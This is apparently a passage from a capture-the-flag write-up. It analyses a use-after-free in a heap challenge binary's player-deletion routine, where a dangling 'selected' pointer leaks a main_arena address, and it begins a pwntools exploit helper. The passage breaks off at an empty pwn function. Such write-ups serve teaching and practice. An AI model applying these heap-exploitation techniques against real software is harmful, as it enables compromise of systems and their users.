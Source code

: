 #### .: Show Player :.

```asm
/* Global variable holding a player pointer */
             [...]
004020f2  mov     rax, qword [rel selected] 
004020f9  mov     rdi, rax
004020fc  call    show_player_func
             [...]
```

### _UAF Vulnerability_

The player's name is free'd first and then the player's chunk itself. However, the **selected** variable isn't zeroed out, which we can abuse to leak the main_arena pointer of a smallbin chunk.

```asm
             [...]
/* index */
00401b9c  mov     eax, dword [rbp-0x1c]
/* player struct pointer */
00401b9f  mov     rax, qword [rax*8+0x603180] 
00401ba7  mov     qword [rbp-0x18], rax
00401bab  mov     eax, dword [rbp-0x1c]
/* Mitigate double-free, good shit */
00401bae  mov     qword [rax*8+0x603180], 0x0 
00401bba  mov     rax, qword [rbp-0x18]
/* player's name pointer */
00401bbe  mov     rax, qword [rax+0x10]      
00401bc2  mov     rdi, rax
00401bc5  call    free
/* player's chunk */
00401bca  mov     rax, qword [rbp-0x18]   
00401bce  mov     rdi, rax
00401bd1  call    free
             [...]
```

### _Exploit Visualization_


```python
def alloc(name, attack = 1, 
		  defense = 2, speed = 3, precision = 4):

	p.recvuntil('choice: ')
	p.sendline('1')

	p.recvuntil('name: ')
	p.sendline(name)

	p.recvuntil('points: ')
	p.sendline(str(attack))

	p.recvuntil('points: ')
	p.sendline(str(defense))

	p.recvuntil('speed: ')
	p.sendline(str(speed))

	p.recvuntil('precision: ')
	p.sendline(str(precision))

	return

def pwn():
```